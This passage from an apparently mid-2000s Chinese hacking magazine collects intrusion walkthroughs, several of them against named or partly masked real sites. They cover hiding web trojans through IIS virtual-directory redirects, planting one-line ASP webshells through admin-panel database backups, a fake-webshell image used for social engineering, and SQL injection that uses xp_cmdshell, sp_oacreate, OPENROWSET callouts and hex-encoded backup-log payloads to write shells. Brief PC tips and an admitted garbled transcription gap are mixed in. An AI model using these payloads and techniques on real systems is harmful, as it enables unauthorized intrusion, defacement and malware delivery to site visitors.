注意其中的 W3SVC/1/Root/www/ 代表 IIS 下的第一个 Web 服务器的 www 虚拟目录，大家不清楚的话可以用 adsutil.vbs 的 enum 参数去查询自己需要更改的网站的 ID 号，其他的操作可以打开 adsutil.vbs 脚本内容查看。这样操作之后就设置了虚拟目录的重定向特性了。现在试着在页面里调用 include/mm2.js，你猜浏览返回的是 mm2.js 的内容还是我们的 mm1.js 内容呢？答案是 mm1.js，如图4所示。

并且物理文件还是存在的，这也许就是 IIS 的特性吧！它首先处理用户的请求，并且虚拟目录优先于物理文件。接着我们去 IIS 里看看有没有 include 虚拟目录吧，如图5所示。没有吧，呵呵！这样我们就成功地绕过权限的限制和管理员的检测，将我们的木马挂到了对方的网站上，并且除非对方重做 IIS 或者删除我们隐藏的虚拟目录，否则他是很难清除我们的木马的！


文章很简单，关键是 IIS 脚本的命令和对 IIS 的一些认识，这种挂马方式适合于得到管理员权限之后的挂马，对付那些只是勤快的管理员还是很有用的。以后大家发现网站存在问题时，记得要用这个脚本查看一下有没有问题哦，或者干脆把 IIS 的设置也备份吧，遇到问题把 IIS 的设置还原，呵呵！

如果还有什么问题欢迎到论坛讨论，我的 ID 是剑心大人。

> 编辑点评：很隐蔽的一种挂马方式，不过不知会不会在 IIS 管理器文件列表看到这个 mm2.js 文件后边的属性被标明重定向了，如看不到那就很完美了。大家可以自行在 IIS5 或 IIS6 里测试。另外，作者提到“大家不清楚的话可以用 adsutil.vbs 的 enum 参数去查询自己需要更改的网站的 ID 号”，那个东西太长了，我写个 VBS 脚本一运行就可以列出网站的 ID 号了，VBS 脚本代码如下：

```vb
Set ObjService=GetObject("IIS://LocalHost/W3SVC")
For Each obj3w In ObjService
If IsNumeric(obj3w.Name) Then
  sServerName=Obj3w.ServerComment
  Set webSite = GetObject("IIS://Localhost/W3SVC/" & obj3w.Name & "/Root")
  ListAllWeb = ListAllWeb & obj3w.Name & String(15-Len(obj3w.Name)," ") & obj3w.ServerComment & "(" & webSite.Path & ")"
End If
Next
WScript.Echo ListAllWeb
Set ObjService=Nothing
WScript.Quit
```

## 利用 fc 细分软件注册表

例如，我们可以在安装软件前备份一次注册表（如：c:\first.reg），安装后再导出注册表文件（c:\second.reg），然后再在 MS-DOS 方式（纯 DOS 方式也行）下执行下列命令：

```bash
c:\>fc first.reg second.reg>fc.txt
```

再打开 fc.txt 文件，即可查看该软件对注册表添加了哪些子项。

注：重定向输出的文件类型一般为 .txt 形式，也可以是 .wps、.doc 等，前提是必须安装相应的文件打开程序。

## 没有上传也拿 webshell

现在大部分得到 webshell 的思路都需要上传的支持，比如欺骗上传得到 webshell，或者利用数据库的备份功能将上传的图片备份成我们的木马等。如果没有上传选项，利用后台得到 webshell 还是有点困难的，这次我就遇到了一个。因为是入侵服务器上的一个 webshell 以便于我们进行旁注，所以找了一个很弱的站，也就是我们今天的目标，直接在网站里扫出了后台的登录界面，用默认口令 admin 登录进去，果然是最高权限的管理员账户咯！一看后台的功能，有上传，有备份，如图1所示。拿 webshell 应该是件很简单的事吧（当然不会这么简单了，不然就没有这篇文章了^^）。


还是按照老思路来吧，去上传的页面上传东西！在添加新闻的地方上传一张伪装成 jpg 后缀的木马，结果图片显示上传成功但是出错，如图2所示。


即使上传成功，没有 URL 地址也没办法啊，换成正常的图片上传还是显示失败。郁闷！那只有看看备份数据库那里是什么样子了，如图3所示，只要定义好原路径就可以备份成我们需要的任意格式的文件了。但是问题也出现了，要想备份出来的文件中包含我们的 asp 代码，必须在源文件里包含我们的 asp 代码，但是如何在不上传文件的情况下拿我们的 webshell 呢？看来只有想办法控制源文件的内容才可以得到我们的 webshell 了！可如何控制源文件的内容呢？对了，我们可以控制数据库内容的，如果数据库没有过滤 asp 代码的话，就可以备份成我们自己的 webshell 了。但是我们还需要数据库的路径，这样才能实现备份功能。现在让我们来试试，看看能不能突破障碍吧！


在后台有添加新闻的功能，我们去添加一个新闻，在标题里写上一句话木马 `<%execute(request("#1"))%>`，如图4所示。


我不知道有没有过滤我们的字符，一般都是下载数据库看里面的内容的，但是这个系统我暂时不知道数据库路径，也不知道默认数据库的地址，甚至后来知道了数据库地址，不知为什么也下不下来，所以我们只有通过显示回来的源文件来看了。现在回到首页，发现有的地方已经变形了，再查看源文件，如图5所示，没有什么过滤哦，对后台挺信任的啊，看来我们提交的代码是在数据库里面的。我们可以控制数据库内容了，现在关键是找出数据库的路径。第一个想到的就是暴库，找一个应该访问了数据库的二级目录的 asp，将 `/` 替换成 `%5c` 访问，如图6所示。其实后来想起来，不可以哦！这个站屏蔽了错误信息，给你暴出来你也看不到，呵呵。


不过现在是充分利用我们手边的后台功能的时候了。将 admin_left.asp 当作数据库备份下吧，备份成我们的 admin_left.asp 为 1.txt 文件，这样访问就可以得到它的内容了，没猜错的话它应该包含了 conn.asp 之类数据库连接文件的东西。如果我们将连接文件备份一下，不就可以看到里面的内容从而知道数据库路径了吗？结果果然发现了 conn.asp 文件，备份后访问，如图7所示。


嘿嘿，看到数据库路径了吧！现在去数据库备份的地方备份数据库来产生我们的小马吧，我用海阳的 2005 客户端连上去，结果如图8所示，任务到此结束。


其实拿 webshell 也就是充分利用后台给我们的功能，后来我发现在后台系统设置里更改的东西好像都是直接写到文件里的，这又给了我们一个拿到 webshell 的方法。总之，就是充分利用给我们的权限去拿更高的权限，并且不要轻易放弃。如果还有什么问题，欢迎到论坛讨论，我的 ID 是剑心。

## 小馋 WEBSITEELL 到真人入侵

经过长期的攻击洗礼和技术成长，现在大多数 ASP 程序都在安全上下足了功夫，使得传统的入侵方法失去了作用。在这种情况下，我们综合利用系统和程序的漏洞甚至小错误，结合社会工程学来进行入侵，是一个不错的选择。下面就以动网为例，说说我是如何利用 IIS 的一个小漏洞结合社会工程学入侵成功的。

动网论坛发展到现在的 7.1SP1 可谓是比较完善的了，所以如果是遇到一个 DVBBS7.1SP1 的论坛，基本上不用打脚本的主意（数据库地址默认或管理员白痴除外）。但是我们也应该看到，动网论坛是一个 ASP 的系统，服务器架设 ASP 的执行环境一般都是 IIS。微软的东西漏洞很多，但有些利用起来也是十分困难的。所以，这里我选择用 IIS 的一个小漏洞，或者说这根本就算不上是漏洞，只是一个小错误，一般没人会注意它的，连动网官方也不例外。


这个“漏洞”就是，对于可以直接解析浏览的文件，IIS 并不判断文件的真正类型就直接解析执行，这样就使得我们有机可乘了。常见的可以直接解析的文件除了 HTM、ASP 等文件外，还有 JPG 等图片文件。如果把一个 HTM 文件的后缀改为 JPG 放到 IIS 目录中，会不会也直接执行 HTM 语句呢？我们只需把代码另存为 JPG 文件，访问后可以看到，代码确实执行了，如图1所示。

怎么样，神奇吧！也许有人要问：这有什么用？别急，我们先按照经典海阳顶端 2006 登录的界面编写一段 HTM 代码（随便找一个 2006.asp，然后保存成 html 再改写就可以了），然后，我们把上面的代码另存为 JPG 格式，再用论坛的上传功能直接上传上去，就可以直接得到一个“WEBSHELL”了。这个 WEBSHELL 虽然是假的，但可以骗过很多人。


骗到管理员有什么用呢？如果我们对管理员说我们已经入侵了他的站，他会怎么样呢？当然会先确定一下我们说的是不是真的。我们通知管理员的时候可以直接告诉他，我们上传的那个图片是我们得到的 WEBSHELL，JPG 的别人一般不会怀疑文件的安全性，只要他去访问我们这个文件就可以了。由此可见，安全并不是绝对的，在没有任何权限的情况下我们也有可能“入侵”网站，不是吗？

> 编后点评：一个不错的思路。但是我不喜欢文章中的一些文过饰非的话语。有的作者投稿文章想要发表，往往会把一个小漏洞、一个小方法写成天下无敌式的感觉，以为可以得到编辑的注意或读者喜欢。但往往真正有技术含量的文章，其文风必定也是沉淀内敛的。

## 猜测站这不一定：一站站入侵中的 SQL 注入

现在的 SQL 注入攻击已经变得越来越普及了，很多不太懂 SQL 注入原理的人也都懂得用工具去扫描和利用漏洞了，但在实际情况中遇到的 SQL 注入却并不总是那么简单，很多环境原因会导致直接利用工具失败。还有的时候注入点处于比较特殊的位置，如在登录的地方需要验证码的时候，也会造成工具注入的失败。这次我也遇到了一个比较特殊的情况。

某大学是一所比较有名的学校，管理得也很严。对自己的网站进行过安全检测，理论上的“首页”地址基本上不存在 SQL 注入漏洞的可能。所以我就把目标放在了其他地方。在他们的主页上有一个管理入口，点击去看看，发现可以登录哦！我们还是常规点，用用户名 admin 和密码 admin 登录试试。果然登录失败，提示密码错误。但是我们并不是什么收获都没有，我们获得了一个管理员名字。验证一下我们刚才得到的结论，再用一个不存在的用户名登录试试，果然错误返回的信息是不存在这个用户名。


一，提示密码错误，如图4所示。呵呵，发现漏洞了！

下面的问题就是如何利用这个漏洞了。最简单的方法就是想办法找出参数的提交地址，然后放到注入工具里跑。这个好说，查看源文件得到表单的 action 地址，然后查看用户名的变量就可以构造出注入的地址了，如：`http://wcm.hit.edu.cn/admin/admin/login/login2.asp?username=admin`，这个链接应该是存在漏洞的。但当我用工具检测时问题出现了：提示没有漏洞。换了 Post 方法检测之后还是提示没有漏洞。再改注入的错误关键字为“密码错误”检测，发现仍然没有漏洞。我想应该是程序写的方式有问题，获取参数的方式跟其他的不一样吧！又试了好久之后我放弃了，工具不是万能的，它毕竟不能代替人思考。现在我们有注入点，那么就在这个注入点体现 SQL 猜测的艺术吧，很多情况下需要这种思路的！

我发现在用户名处填写 `admin'+and+SQL注入代码--`，SQL 语句结果为真的话会出现密码错误，结果为假的话会提示没有这个用户名，因为我们前面的 admin 是肯定存在的嘛！猜测我们的语句提交到数据库里变成了：`select 密码 from 表 where 用户名='admin'+and+SQL注入代码--`。我们的 admin 用户是肯定存在的，然后用 and 连接自己的 SQL 语句，再用 `--` 注释掉其他东西，当语句为真时这个语句取出的就是 admin 的记录，为假的语句记录为空，这是我们 SQL 猜测的基础哦！因为是 SQL Server，所以首先看看它的权限吧，搞得好的话可以少走好多弯路哦！提交：

```sql
admin' and user='dbo'--
admin' and (SELECT S_SRVROLEMEMBER('sysadmin'))=1--
```

嘿嘿，返回密码错误，也就是说语句是正确的，所以应该是系统权限了！然后看看它的 IP，首先本机监听 1433 端口，然后使用语句：`OPENROWSET('sqloledb','server=218.*.35.227;uid=jnc;pwd=jnclovesw;database=dbname;','select * from tbmember')--`，其中 218.*.35.227 是我的 IP，这个语句可以用来探测 SQL Server 的 IP，普通权限也可以使用的！等了半天，对方服务器超时了，我的 NC 也没有什么反应，应该是数据库服务器没有上网或者被防火墙屏蔽了向外的端口。本来还想用 OPENROWSET 突破错误显示的呢，看来不行了！为了验证自己的结果准确与否，再提交 `admin' and (select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell')>0--`，返回没有这个用户，那就是不存在 xp_cmdshell 扩展了。提交尝试恢复的语句：`admin';dbcc addextendedproc('xp_cmdshell','xplog70.dll')--`，正常返回信息，然后执行上面查看 xp_cmdshell，发现还是没有这个扩展，看来是恢复失败了。那么用：`admin' and (select count(*) from master.dbo.sysobjects where xtype='X' and name='sp_oacreate')>0--` 返回密码错误，也就是说存在 sp_oacreate 扩展了。大家知道这个也可以用来执行命令的，那么我们提交：`admin';use master declare @o int exec sp_oacreate 'wscript.shell',@o out exec sp_oamethod @o,'run',NULL,'cmd /c ping 218.7.35.227',0,true;--`，我的防火墙还是死了一样的没有任何反应，郁闷！看来真的做了限制不能上网，而且错误提示关闭，根本没有办法得到它的 IP 嘛！平时还可以试试查看目录来判断的，现在也不行了，即便可以执行命令也没有什么好办法。我也不赌 web 和 SQL Server 同服务器了，其实可以用命令将机…

（正文为双栏中文长段落，主题与 SQL 注入测试、登录绕过、字段猜解、修补建议相关。由于分辨率与噪声影响，整段无法完整无误逐字转录。）


> 编辑点评：sa 注入下得到服务器 IP、关于用户名变量 name 与密码变量 password 的讨论（小段点评文字）。

## nohack 小技巧

## 手动下载 XP 升级补丁

许多朋友在装好 SP1 后通过 Windows Update 网上升级后还会发现有许多升级补丁，但是通过 Windows Update 下载速度可能较慢。通过实践，发现一个小窍门。

- 1) 通过开始菜单里的 Windows Update 进行上网升级
- 2) 选择“扫描以寻找更新”查找升级补丁
- 3) “复查并安装更新”开始查看更新补丁说明
- 4) 点击“立即安装”弹出 Windows Update 网页对话框开始下载补丁
- 5) 选择取消，退出升级
- 6) 打开 `c:\windows\Windows Update.log`

看见了吧！你所要的补丁下载地址都在这里！现在所要做的就是复制下载链接地址，用网际快车（FlashGet）这类软件下载。

## 一次艰辛的提权

> 寂寞的刺喉

前两天，帮一位朋友下载软件，事情办完后，看到软件的 URL 地址是“http://www.jmdcwl.cn/info/Cont.asp?mid=169&id=1462”（因为某些原因，隐去了真实名称，这里用 jmdcwl 代表该站点，以下同），不存在注入漏洞吗？随手在其后加入 `' and '1'='1`，返回的竟然是正常页面，啊啊！注入漏洞，哥们又要交手了！

### 一、初探虚实

先来看看采用的是什么样的数据库。将上面的测试代码更改为“`' and 1=(select @@version) and '1'='1`”，返回了如下信息：


哈哈！SQL 数据库，偶这几天正努力学习 SQL 数据库的注入，看来它是想检测一下偶的水平喽！Windows NT 5.2，不就是 Server 2003 系统吗？看来还有一定的难度哟！接着测试连接数据库的用户名，将代码更改为“`' and user>0 and '1'='1`”，返回了如下信息：


dbo，难道就是传说中的 SA 用户？偶心中一阵窃喜。再来检测一下程序是否过滤了分号与破折号，这个可是很重要的！更改测试代码为：“`1;declare @a int--`”，返回的却是 SQL 错误提示：


虽然没有直接告诉偶结果，但也从另一侧面说明其没有过滤分号和破折号。若进行了过滤，所返回的应该是语法错误之类的信息。如果这样一句一句地进行猜解，太浪费时间了。恰巧手头有一款 NBSI3.0，来试一下它的火力。打开 NBSI，在注入地址中输入：“http://www.jmdcwl.cn/info/Cont.asp?mid=169&id=1462”，提交类型选择“Get”，OK！NBSI，拜托了！如图1所示，得到了 SQL 数据库中的一些信息。


对于 NBSI，大家都很熟悉了，除了用其猜测数据库中的一些敏感信息外，还可以执行一些强大的命令。点击“SQLServer信息”旁的“工具”按钮，如图2所示，弹出三条选项：“Commander”、“Tree_List”和“RegReader”。


“RegReader”是用来读取注册表键，对采用 Win2000 Server 的网站，可以读取到其网站目录的物理地址。但前面在查询 SQL 版本时已经得知，此网站服务器采用的是 Win2003 Server，对于这种系统，偶还不知道网站物理地址在注册表中的位置，只好作罢。

虽然“RegReader”找不到网站的物理地址，但还有“Tree_List”，可以用它来读取磁盘目录，如图3所示，列出了 C 盘中的文件夹及文件。其中有 WINDOWS 及一些系统目录，看来 C 盘是系统盘。更换盘符再次查找，最后终于找出了该网站的物理目录：“D:\寂寞”（注：网站目录名为中文，这里用“寂寞”来代替）。有了网站的物理目录，就可以使用“Commander”中的上传功能把 ASP 木马写入网站目录。选择本地的一句话木马作为上传文件，在“保存位置”中填入：“D:\寂寞\jm.asp”。


在 NBSI 提示上传成功后，偶迫不及待地在网址内输入：“http://www.jmdcwl.cn/jm.asp”，结果匪夷所思，找不到此文件。晕！用 NBSI 的“Tree_List”读取“D:\寂寞”中的内容，果然没有 jm.asp。难道被 K 掉了？不会吧！偶又把一句话木马进行了加密，再次上传，再次查看目录，还是没有该文件。照这种情况来看，一句话木马不是被 K 了，而是根本就没有传到该目录内。

在“Commander”中，还有“命令执行”功能，其中包含“Cmdshell”、“OACreate”和“JOB”，这些都是具有较高威力的武器，怎么把它们给忘了！执行命令“Dir c:\”，结果返回的“回显结果”是：“###### 创建临时表[X_9687] ###### 删除临时表[X_9687]”，并未显示需要的 C 盘目录。又试了其他两项，结果均是同样的回显结果，FAIL！

怪了，看人家的经验，大多都是利用这些扩展，三下五除二地拿下一个站点，为什么轮到偶时，时运就这么背了？正暗自嘀咕时，忽然想到，在用 NBSI 检测站点时，所得到的用户权限好像不是超级权限，而是“db_owner”，“db_owner”具有什么样的权限呢？难道 Cmdshell 等扩展不能执行，是它在作怪？

在本地 SQL 的“企业管理器”中新建一个数据库用户，赋予其“db_owner”权限，然后打开“SQL 查询分析器”，用此用户连接本地的 SQL Server，经过一番测试后发现，“db_owner”的权限确实很低，没有执行 Xp_Cmdshell 等扩展的 EXECUTE 权限，所以无法实现上传及命令行的执行。但在测试时也发现，它竟然具有执行 XP_DirTree、XP_RegRead 等扩展的 EXECUTE 权限，这也是为什么 NBSI 能实现读取注册表和目录的功能。除此之外，“db_owner”还有对数据库操作的一些权限。

## 二 陷入泥潭

难道就没有办法了吗？偶在发愁之际看到 NBSI 下方的菜单条中有一项“GetWebShell”，WebShell？不就是 WEB 权限吗？NBSI 的这个功能还未测试，怎能轻言放弃！复制注入地址到此项的地址栏中，选择“字符型”，在备份路径中填入：“D:\菠萝\jm.asp”，按 NBSI 的默认选项进行 LOG 备份，NBSI 真是不错，在运行过程中，还给出了相应的代码；如图 4 所示，完成了 LOG 备份。


这次总该行了吧！用“Tree_List”查看“D:\菠萝\”目录，竟然还是没有 jm.asp，难道“db_owner”连数据库备份的权限也没有？

切换窗口至本地的查询分析器，在其中的输入窗口中依次输入如下命令：

```sql
1. create table [dbo].[shit_tmp] (cmd [image])
2. declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x7900690061006F006C007500 backup log @a to disk=@s with init,no_truncate
3. insert into [shit_tmp](cmd) values(0x3C25657865637574652872657175657374282261222929253E)
4. declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s='d:\新建文件夹\jm.asp' backup log @a to disk=@s with init,no_truncate
5. drop table [shit_tmp]
```

在下方的结果窗口中，每一条都是“成功完成”。进行完第五步后，偶打开本地 D 盘的新建文件夹，jm.asp 乖乖地躺在里面呢！看来，“db_owner”具有数据库备份的权限，但为什么对目标网站进行的数据库 log 备份就不能成功呢？

带着这个疑问，在 NBSI 中，将“备份路径”改为“D:\new\jm.asp”（new 是 D 盘中的另一个文件夹），待 Log 备份成功后，用“Tree_List”查看“D:\new”中的内容，jm.asp 真的跑进了 new 文件夹内，看来管理员对网站的目录“菠萝”文件夹设置了权限！

答案是找到了，但路也似乎走到头了，偶沮丧地这样想着。且慢！难道此服务器中只有这一个网站？难道就没有其他的站点？用“虚拟站点查询工具”查看服务器所绑定的域名，结果竟然是：“此 IP 没有绑定国际域名”，偶晕倒在地！

无聊之际，打开网站首页，忽然看到其左侧是一些同系统的网站链接。打开 CMD 程序，分别 PING 了一下这些网址，哈哈！还真有一个地址的 IP 和此网站的 IP 是一样的，这个站偶暂命名为：http://www.jmdcw2.cn。打开该网站，记下其中的一些二级目录及 ASP 文件名，折身返回到 NBSI 的“Tree_List”中，经过一阵狂搜，终于在 D 盘的一个中文目录内找到了这些名称，以下用“刺猬”作为这个文件夹的代用名。复制其中的一些 ASP 文件名到网址后，均正常显示，足以证明此目录即为 www.jmdcw2.cn 的网站目录。

为了提高这次备份的成功率，偶又对“刺猬”文件夹进行了深度扫描，找到了一个 upload 文件夹。upload？不就是上传文件夹嘛！此处不可能有限制吧！

OK！再次进行 LOG 备份，“备份路径”改为“D:\刺猬\upload\jm.asp”，待备份完成后，偶满怀希望地 LIST “D:\刺猬\upload\”下的文件，结果又是一盆冷水泼了下来！不会没这么冷吧，难道这个网站也被管理员设成了只读权限？该不是管理员知道偶要来，故意逗我！MY GOD，赐予偶好运吧！

## 三 初现端倪

NBSI3 在进行数据库备份时，为避免单引号引发错误，凡涉及到单引号引入的数据，均转换为 16 进制。如备份路径是：“D:\刺猬\upload\jm.asp”，则在提交数据时，会自动转换为“0x64003A005C523A732C5C00750070006C006F00610064005C006A006D002E00610073007000”。而偶在用本机的查询分析器测试时，使用的是未转换为 16 进制的字符，所以备份成功。难道是这个问题？SQL 对中文的 16 进制有点感冒？这一连串的假设，让偶决定在本机的查询分析器内再次测试。

按照前面的步骤，逐条输入，当进行到第四步时，偶先在本机 D 盘创建“刺猬”文件夹，然后用 NBSI 中的 16 进制字符进行备份，按 F5 执行命令，如图 5 所示，出现了错误：16 进制的“刺猬”在经过 SQL 数据库的转换后，竟然成了乱码，以致 SQL 因无法找到此路径而终止备份。


后来，偶发现 NBSI 转换的字符与 16 进制软件转换的不一致，如“刺猬”在 NBSI 中是“523A732C”，用软件转换后却是“B4CCE2AC”，但无论是哪一种形式，均为乱码。

偶长长地出了一口气，原因终于找到了，还真是 16 进制惹的祸！但麻烦事也跟着来了，NBSI 在备份时，会自动将“备份路径”转换为 16 进制，如果其能增加一个正常和 16 进制之间的选项，那该多好，而现在偶只好用手工方式进行 LOG 备份了！

```sql
@a=db_name();@s=0x790069006F006F006C007500 backup log @a to disk=@s with init,no_truncate

第三步：http://www.jmdcw1.cn/info/Cont.asp?mid=169&id=1462' insert into [shit_tmp](cmd) values(0x3C25657865637574652872657175657374...)

第四步：http://www.jmdcw1.cn/info/Cont.asp?mid=169&id=1462';declare @a sysname,@s nvarchar(4000);select @a=db_name(),@s='D:\刺猬\upload\jm.asp';backup log @a to disk=@s with init,no_truncate

第五步：http://www.jmdcw1.cn/info/Cont.asp?mid=169&id=1462';drop table [shit_tmp]--
```

在第四步完成后，偶没有马上进行第五步去删除表，而是用“Tree_List”查看“D:\刺猬\upload”内的文件，哇噻！盼望已久的 jm.asp 终于现身了。

## 四 又见迷雾

在地址栏内输入：“http://www.jmdcw2.cn/upload/jm.asp”，如图 6 所示，在页面的最下方出现了错误信息：“类型不匹配: 'execute'”，说明一句话木马成功写入了 jm.asp 中。


打开偶写的一句话木马客户端，输入 URL 地址，点提交，如果成功的话，页面会自动转到 jmup.asp。结果在打开 jmup.asp 时却出现了如图 7 所示页面，要进行用户验证！


> 您未被授权查看该页。  
> 您不具备使用所提供的凭据查看该目录或网页的权限。  
> HTTP 错误 401.1 - 未经授权：访问由于凭证无效被拒绝。

分析这些提示，可以说明“jmup.asp”已经生成于 upload 目录中，但因为管理员对这个 upload 文件夹做了限制，其中的文件要管理员批准后才可运行。既然 upload 目录要管理员批准，那就把文件保存到其他文件夹内试一下。

`server.mappath("jmup.asp"),2` 为：`IP.SaveToFile "D:\刺猬\info\jmup.asp",2`，将相对路径改为绝对路径，点提交，info 目录中的 jmup.asp 写入成功。但在运行时，又出现同样的用户验证窗口，看来管理员不仅对 upload 作了限制，搞不好对整个“刺猬”目录都做了限制。

在前面进行数据库备份时，得出了因为 16 进制中文字符的原因，而造成 NBSI 不能把数据库备份写入其中。既然“刺猬”文件夹做了权限设置，那就折转回头，用一句话木马把文件写入到“寂寞”文件夹中，应该不会出错了吧！修改 IP.SaveToFile 的参数为：“D:\寂寞\info\jmup.asp",2”，点提交，返回了如下信息。

> ADODB.Stream 错误 '800a0bbc' 写入文件失败。  
> /upload/jm.asp，行：0

接着又试了“寂寞”文件夹内的其他目录，仍是写入失败。看来管理员对“寂寞”文件夹加的是只读限制，偶的心有点凉凉的了！

## 五 突破重围

难道就这样放弃？还真有点不舍得！但应该如何突破呢？忽然间，一只狐狸从我脑中跑过……将冰狐的代码填入一句话木马客户端的“上传内容”中，并修改 IP.SaveToFile 参数为“D:\刺猬\upload\jmup.asp",2”，很顺利地就把 jmup.asp 内容改写为冰狐的一句话木马了。启动冰狐客户端，在“ASP URL”中填入“http://www.jmdcw2.cn/upload/jmup.asp”，点击“RUN”，弹出一个窗口，如图 8 所示，显示出服务器的一些环境变量。


哈哈，看来冰狐大哥还真给偶带来好运了！切换选项到“ASP2.0 客户端”，其中集合了很多强大的功能，比如 FSO 浏览、下载、新建、删除及上传文件等等。接下来锁定目标文件并尝试利用现有 ASP 文件进一步获取 WebShell……


Explicit，否则运行时会出现错误），并在其“Path”中填入“D:\刺猬\conver.asp”，如图 9 所示，然后点击“新建文件（或写入文件尾）”按钮。因为该文件已经存在，所以填入的这些代码会写入到文件的尾部。看着页面下方的进度条缓慢前进，偶的心那个急啊！（此处省去 200 字的心情描写）

当绿色的进度条消失的那一瞬间，偶马上打开 conver.asp 页面，刷新了一下，如图 10 所示，一个真正的 ASP 木马终于现身了！输入自定义的密码，哈哈！成功登入！

至此，偶的测试也要告一段落了。回头看一下，曲曲折折！OK，偶也要闪了。在临走之前，先清除掉这期间偶所创建的 ASP 文件，再给管理员发封漏洞警告 E-MAIL，希望他在相关页面中加入过滤单引号、分号和破折号等语句。OK，走人！

> 【文章里的工具 nbsi3.0、冰狐浪子微型 ASP 后门客户端 2.0 测试版、ASPAdmin_A.rar、ASCII 转换 ASCII-zh.exe 已收录在本期光盘中。】

编辑点评：出现图 7 所示的错误，除了作者提到的管理员权限设置外，我怀疑还有一种可能，就是生成的 jmup.asp 被杀了。要是一提到一句话木马，就纳闷，为什么大家都不怎么用海阳顶端的 2005 或 2006 的 CS 版呢，非要再去生成一个新的 ASP 木马？如果作者早一点用了，也不用后来再费“第五次突破重围”这个周折了。嘿嘿，做个广告。还有一点，本文提到的 MSSQL 对中文的 16 进制编码似乎有 bug 问题，这个我就不太确定了，大家赶快报告微软。

## PHP&ASP 经典注入实例

现在网络上最热的主题大概就是挂马吧，利用 IE 漏洞来运行 EXE 文件这个思路让很多人最终入侵客户端得逞。这篇文章写的就是对两个目标网站进行检测得到挂马的权限。本文也是我入侵的两个站点的真实过程，技术含量不算高，算是脚本注入里最经典的两个注入方式了，可以给新手一些引导。

首先检测的是一个 PHP 脚本的站点，得到注入点的一个 URL 为 http://***.hk/list_annouc.php?id=19。需注意的是，如果对方支持 POST 提交的话尽量用 POST 提交，因为这样不会产生 IIS 日志。我推荐大家用的工具是“网站安全检测工具 V4.0”，这是桂林老兵的最新作品，这款工具用 POST 方式提交很方便。还有一个特点就是有的网站做了过滤，如果在 URL 后输入命令的话会跳转到某个页面，那这种方式可以避免让我们在输入很长的命令后又要重新输入的麻烦，如图 1 所示。

该注入点是数字型的，判断方法是直接在 URL 后输入 -1 和 1=2 就可以了，结果返回信息不一样。我又在 URL 后面输入 `'` 后直接返回了网站的物理路径，从得到的信息判断出是台 LINUX 的机器。

下面的工作就是猜 MYSQL 的版本了，如果 MYSQL 的版本大于 4.0，就可以用联合查询直接猜字段，或是通过读取网站的源代码和配置文件得到 MYSQL 的连接密码了。判断 MySQL 版本的具体实现语句是在 URL 后输入 `/*!30000s`。如果 MYSQL 的版本大于 3.0 就会返回错误信息，如果小于或等于 3.0，页面就会正常显示。

很幸运，网站的 MYSQL 版本是 4.0 以上的，我开始尝试对数据库字段数的猜解，实现的语句是在 URL 后输入 `and 1=2 union select 1/*` 查看是否正常显示，输入到 `and 1=2 union select 1,2,3/*` 的时候正常显示了，说明网站有 3 个字段。

猜到字段就可以猜数据库的表了，用一些比较常见的表名做下实验，实现语句是 `http://***.hk/list_annouc.php?id=-19 union select 1,2,3 from *`（注意，我把 id=19 换成了 -19），把 `*` 替换成你猜测的表名就行了，猜得的表名是 user。

下一步就是猜字段名，语句为 `union select 字段名,2,3 from *`，最后猜得的 3 个字段名分别为 id,password,username。剩下就是取得字段值了，我们可以直接就得到后台的用户名和密码，实现语句为 `http://***.hk/list_annouc.php?id=-19 union select username,password,id from user`，找到的登录后台是 `http://***.hk/login.php`。

查看是否有上传文件和修改新闻的地方，发现对上传的文件类型做了限制，不能直接传 WebShell 上去。突然想到 Apache 存在一个对文件后缀解析错误的 BUG，试下传个 `.php.jpg` 的文件，结果失败，但在后台找到了更改新闻 HTML 的地方，这样就能把调用框架语句添加到新闻里去，如图 2 所示，就可以成功挂木马了。


想想那个后台登录的地址是不用写验证码的，如图 3 所示，可以直接暴力破解就能把用户名和密码暴破出来，因为密码不是很复杂，破译只是时间问题了。想大家应该多尝试暴力破解，这个思路有时候也是可行的哦。

第 2 个站是一个 ASP 脚本的网站。同样，如果支持 POST 最好用 POST，输入 1=1 和 1=2，返回结果不一样，存在漏洞，通过输入 `'` 从返回的信息知道其数据库为 MSSQL。查看一下现在连接数据库的用户权限是什么权限，实现的语句是在 URL 后输入 `and user>0`，返回信息为 SA 权限。如果 MSSQL 服务器是外网 IP，我们就比较容易操作它了。

```sql
exec master..xp_cmdshell 'ipconfig /all'--
```

返回的信息为内网肉鸡（编辑：应该看不出内网吧，作者写得简略了，可以用 NBSI 直接在 CMD 那里 `ipconfig /all`），这样上面的想法就实现不了了。现在的办法是用 ECHO 语句往网站目录里写入一个 WebShell，或直接传一个反弹木马的程序段来控制服务器。

```sql
create table xy(xy1 nvarchar(256) null); 
declare @result varchar(255)
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/',@result output
insert into xy(xy1) values(@result)
```

找到网站的物理路径是 `D:\***\wwwroot\`，现在就可以 ECHO 一个一句话木马到其网站目录了。

```sql
exec master..xp_cmdshell 'echo <%25execute request("a")%25>>d:\***\wwwroot\a.asp'
```

要注意的是转义的问题，在构造 URL 的同时应该考虑编码问题，要将 `%`、`=` 和 `&` 进行编码转换，依次转换成 `%25`、`%3D`、`%26`。用 WebShellControl.exe 连接看看，已经成功连接。看看是否有修改网站源文件的权限，管理员没有对文件进行修改权限限制，直接用这个 Shell 就可以修改其网站的源文件添加调用框架语句了。至于后面的入侵工作，大家就可以发挥各自的想象了，这次入侵的目的现在已经达到了。

小结：文章本身并没有什么技术含量，目的就是让自己和刚刚学习入侵技术的小鸟们一起温故知新，熟悉和回忆一下手工入侵的语句、步骤和方法而已。自己学习技术的时间也不短了，可技术却总是停留在一个水平上，没有什么更大的提高。回过头想一下，有的时候是否太过于依赖工具？

> 【文章里用到的工具 webtool.cxc 和 WebShellControl.exe 已收录在本期光盘中。】

## （编程小技之 VC 专辑）

## 除了项目中 debug 文件夹，还可以删除以下文件

- `.ncb`：无编译浏览文件（No Compile Browser）。
- `.aps`：二进制版本的 RC 文件，用于快速载入。
- `.clw`：ClassWizard 用于保存类的信息。
- `.opt`：工程关于开发环境的参数文件，如工具条位置等信息。
- `.plg`：编译时的 ERROR 和 WARNING 信息文件（实际上是一个 HTML 文件）。
- `.rc~`：编译 RC 时产生的临时文件。
- `.tmp`：临时文件。

## 如何添加系统中的头文件（.h）到当前项目

```cpp
